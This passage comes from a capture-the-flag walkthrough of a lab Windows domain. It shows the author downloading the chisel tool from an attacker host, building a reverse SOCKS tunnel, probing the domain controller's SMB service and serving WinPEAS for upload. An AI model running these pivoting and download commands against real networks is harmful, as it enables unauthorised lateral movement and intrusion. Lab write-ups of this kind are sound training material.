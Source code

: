 ```shell
PS > iwr -Uri http://10.10.14.19/chisel_1.7.7_windows_amd64.exe -OutFile C:\Utils\chisel.exe
```

> Note: `iwr` is an alias of `Invoke-WebRequest` command, which sends HTTP requests to a given URI.

- **Setup a port forwarding server:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:13:11(HKT)]
└> /opt/chisel/chiselx64 server -p 8888 --reverse
2023/08/14 20:13:12 server: Reverse tunnelling enabled
2023/08/14 20:13:12 server: Fingerprint vcAT0XuBZSiYguQd8KRAVBxLUvujrJjMinGJ81pcV2c=
2023/08/14 20:13:12 server: Listening on http://0.0.0.0:8888
```

- **Client connects to the server:** (Dynamic SOCKS proxy)

**My [Proxychains](https://github.com/haad/proxychains) configuration (`/etc/proxychains4.conf`):**
```shell
[ProxyList]
socks5 127.0.0.1 1080
```

```shell
PS > C:\Utils\chisel.exe client 10.10.14.19:8888 R:1080:socks

```

**Now we should be able to communicate with the Domain Controller with `proxychains`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:16:03(HKT)]
└> proxychains nc -nvz 172.16.22.1 445
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:445  ...  OK
(UNKNOWN) [172.16.22.1] 445 (microsoft-ds) open : Operation now in progress
```

**Try to access the SMB server:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:22:29(HKT)]
└> proxychains smbclient -L //172.16.22.1/ -W acute.local -U EDavies
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:445  ...  OK
Password for [ACUTE.LOCAL\EDavies]:
session setup failed: NT_STATUS_NOT_SUPPORTED
```

Hmm... `NT_STATUS_NOT_SUPPORTED`, which means the NTLM authentication is disabled. I also tried LDAP and WinRM, but can't be authenticated.

**I also attempted to upload and run [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master), but nothing useful?**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:47:11(HKT)]
└> file /usr/share/peass/winpeas/winPEAS.bat 
/usr/share/peass/winpeas/winPEAS.bat: DOS batch file, ASCII text, with very long lines (1307), with CRLF line terminators
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|20:47:11(HKT)]
└> python3 -m http.server -d /usr/share/peass/winpeas 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
